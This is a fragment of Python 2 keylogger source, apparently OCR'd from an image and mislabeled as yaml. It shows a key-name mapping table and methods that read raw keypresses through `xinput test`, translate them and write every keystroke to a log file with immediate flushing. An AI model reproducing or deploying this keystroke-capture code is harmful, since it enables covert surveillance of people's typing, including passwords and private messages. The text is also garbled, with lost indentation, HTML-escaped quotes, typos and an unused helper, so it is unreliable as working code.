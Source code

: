 ```yaml
    'Shift_R': ' (ShiftR) ',
    'minus': '-',
    'equal': '=',
    'Alt_L': ' (AltL) ',
    'Escape': ' (esc) ',
    'F1': ' (F1) ',
    'F2': ' (F2) ',
    'F3': ' (F3) ',
    'F4': ' (F4) ',
    'F5': ' (F5) ',
    'F6': ' (F6) ',
    'F7': ' (F7) ',
    'F8': ' (F8) ',
    'F9': ' (F9) ',
    'F10': ' (F10) ',
    'F11': ' (F11) ',
    'F12': ' (F12) ',
    'Num_Lock': ' (NumLock) ',
    'slash': '/',
    'bracketright': ']',
    'bracketleft': '[',
    'comma': ',',
    'semicolon': ';',
    'Scroll_Lock': ' (ScrollLock) ',
    'Home': ' (Home) ',
    'End': ' (End) ',
    'Prior': ' (PgUp) ',
    'Next': ' (PgDn) ',
    'Pause': ' (Pause) ',
    'Insert': ' (Insert) ',
    'Delete': ' (Del) ',
    'Print': ' (PrtScr) ',
    'Left': ' (Left) ',
    'Up': ' (Up) ',
    'Right': ' (Right) ',
    'Down': ' (Down) ',
    }
    
    def _log(self):
    logger = bash.xinput(&quot;test&quot;, self._keyboard, _iter=True)
    keymap = self._get_keymap()
    try:
    for line in logger:
    match = KEYPRESS_REGEX.match(line)
    if match:
    keycode = match.groups()[0]
    key = keymap[keycode]
    self._writen_file(key)
    except Exception:
    print &quot;Salved into %s&quot; % self._filename
    
    def _writen_file(self, key):
    self._file.write(key)
    self._file.flush()
    os.fsync(self._file)
    
    def _sanitize(self, key_char):
    if key_char in self._special_chars:
    return self._special_chars[key_char]
    else:
    return key_char
    
    def _get_keymap(self):
```